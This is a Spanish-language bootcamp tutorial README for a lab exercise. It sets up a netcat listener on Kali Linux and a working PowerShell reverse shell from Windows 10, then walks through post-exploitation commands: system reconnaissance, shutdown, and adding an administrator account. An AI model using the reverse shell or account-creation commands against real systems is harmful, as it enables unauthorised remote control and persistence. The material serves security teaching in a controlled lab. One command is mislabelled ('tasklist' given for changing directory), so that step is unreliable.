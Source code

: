 <!-- hide -->
# Comandos CMD de Windows para Hacking Remoto

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![build by developers](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*Estas instrucciones estan [disponibles en español](https://github.com/breatheco-de/reverse-shell-and-remote-hacking/blob/main/README.es.md)*

### Antes de empezar...

> ¡Te necesitamos! Estos ejercicios se crean y mantienen en colaboración con personas como tú. Si encuentras algún error o falta de ortografía, contribuye y/o repórtalo.

<!-- endhide -->

<onlyfor saas="true" withBanner="false">

## 🌱 ¿Cómo empezar este proyecto?

Este ejercicio tiene como objetivo utilizar **comandos CMD de Windows** en el contexto de una conexión remota, simulando un ataque de **hacking remoto**. Este tutorial te ayudará a establecer una reverse shell desde una máquina Windows 10 hacia una máquina Kali Linux, ejecutando una serie de comandos para obtener información crítica del sistema Windows. Todo esto se hará en un entorno controlado, utilizando máquinas virtuales, y estará enfocado en la fase de **post-explotación** de un ataque ético.

### Requisitos

- **Máquina atacante (Kali Linux)**:
  - Software necesario: `Netcat` (preinstalado en Kali Linux)
  
- **Máquina objetivo (Windows 10)**:
  - Acceso a **PowerShell** y permisos de ejecución de scripts

> Ambas maquinas virtuales deben estar configuradas con la opción **adaptador en modo puente** para que puedan comunicarse a través de la red local.

</onlyfor>

## 📝 Instrucciones


1. Configuración de la Red. Verifica que ambas máquinas se puedan comunicar utilizando el comando `ping` en Kali hacia Windows y viceversa.

2. Establece la conexión con Netcat en la máquina Kali Linux (Atacante). Abre una terminal y escucha en un puerto específico (en este caso, el puerto 4444) utilizando **Netcat**:
     
```bash
nc -lvnp 4444
```
Esto establecerá un listener en la máquina Kali, esperando la conexión desde Windows.

3. Abre **PowerShell en la máquina Windows 10 (Objetivo)** y ejecuta el siguiente script para establecer la reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

  **Nota**: Recuerda reemplazar `"IP-de-Kali"` con la dirección IP de tu máquina Kali Linux.

![imagen](assets/powershell.png)

<!-- ### Ejecuta comandos remotamente -->

Con el script ejecutándose en Windows, ya puedes enviar comandos desde Kali a través de la sesión Netcat que has iniciado. Aquí tienes algunos comandos útiles para interactuar con la máquina Windows:

![imagen 1](assets/listening_dir.png)

### Comandos básicos de windows:

- **Listar archivos en el directorio actual**:
    ```bash
    dir
    ```
- **Obtener información del sistema**:
    ```bash
    systeminfo
    ```
![imagen 2](assets/systeminfo.png)

- **Obtener la configuración de red:**:
    ```bash
    ipconfig
    ```
![imagen 3](assets/ipconfig.png)

- **Listar procesos en ejecución**:
    ```bash
    tasklist
    ```
### Comandos para información detallada:

![imagen 4](assets/hostname.png)

- **Ver información del equipo**:
    ```bash
    hostname
    ```
- **Listar los usuarios en el sistema**:
    ```bash
    net user
    ```
    
- **Ver las conexiones de red activas:**:
    ```bash
    netstat -an
    ```
### Comandos para navegar por el sistema de archivos:

- **Cambiar de directorio:**:
    ```bash
    tasklist
    ```
- **Crear un archivo o directorio:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Comandos administrativos (si tienes privilegios):

- **Apagar o reiniciar el sistema:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Agregar un usuario administrador:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Investiga mas comandos para practicar.

### Cerrar la sesión
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)


<!-- hide -->

## Colaboradores

Gracias a estas personas maravillosas ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr),  contribution: (bug reports) 🐛

Este proyecto sigue la especificación [all-contributors](https://github.com/kentcdodds/all-contributors). ¡Todas las contribuciones son bienvenidas!

Este y otros ejercicios son usados para [aprender a programar](https://4geeksacademy.com/es/aprender-a-programar/aprender-a-programar-desde-cero) por parte de los alumnos de 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) realizado por [Alejandro Sánchez](https://twitter.com/alesanchezr) y muchos otros contribuyentes. Conoce más sobre nuestros [Cursos de Programación](https://4geeksacademy.com/es/curso-de-programacion-desde-cero?lang=es) para convertirte en [Full Stack Developer](https://4geeksacademy.com/es/coding-bootcamps/desarrollador-full-stack/?lang=es), o nuestro [Data Science Bootcamp](https://4geeksacademy.com/es/coding-bootcamps/curso-datascience-machine-learning).Tambien puedes adentrarte al mundo de ciberseguridad con nuestro [Bootcamp de ciberseguridad](https://4geeksacademy.com/es/coding-bootcamps/curso-ciberseguridad).

<!-- endhide -->
